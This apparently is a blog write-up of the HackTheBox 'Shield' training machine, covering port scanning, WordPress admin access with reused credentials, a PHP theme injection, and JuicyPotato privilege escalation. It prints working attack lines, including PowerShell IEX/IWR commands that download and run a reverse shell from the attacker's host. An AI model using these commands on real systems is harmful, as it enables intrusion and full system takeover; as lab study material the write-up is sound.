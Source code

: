 ```yaml
---
layout: single
title: HackTheBox - Shield Writeup
permalink: /hackthebox-sheild-writeup/
excerpt: "Starting Point Machine"
classes: wide
header:
  teaser: "/assets/images/htb/shield/shield.png"
  teaser_home_page: true
categories:
  - hackthebox
  - starting-point
  - windows
  - infosec
  - writeup
tags:
  - juicy-potato
  - seImpersonatePrivilege
---
```



![1](/assets/images/htb/shield/shield.png)


_This is machine from starting point series_ <br>
_You can download official pdf file to view the walkthrough_

# <u>1:Enumeration</u>

- scan top 1000 ports
- the result

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![1](/assets/images/htb/shield/1.png)

- scan all ports
- the result

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![1](/assets/images/htb/shield/2.png)

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## <u>WebPage</u>

- Just default windows server page

![1](/assets/images/htb/shield/3.png)

### <u>Gobuster</u>

- Using gobuster to find any hidden directory
- the result

![1](/assets/images/htb/shield/4.png)

### <u>WordPress</u>

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### <u>Admin Login</u>

- Try to login as admin with credentials from previous box `vaccine`
- Success

![1](/assets/images/htb/shield/7.png)

# <u>2:Foothold/Gaining Access</u>

### <u>WordPress Theme Injection</u>
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![1](/assets/images/htb/shield/8.png)

- Well, the reverse shell is succefully execute 

### <u>SeImpersonatePrivilege</u>

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![1](/assets/images/htb/shield/9.png)

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![1](/assets/images/htb/shield/12.png)

# <u>3:Privilege Escalation</u>

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### <u>POTATO</u>

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![1](/assets/images/htb/shield/13.png)

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![1](/assets/images/htb/shield/14.png)

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

> NOTE: Make sure you're running the nc for listening the connection
> 
> REMEMBER: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
> in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.

- the result

![1](/assets/images/htb/shield/15.png)

- we've got the root flag

![1](/assets/images/htb/shield/16.png)

# <u>4:Conclusion</u>
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)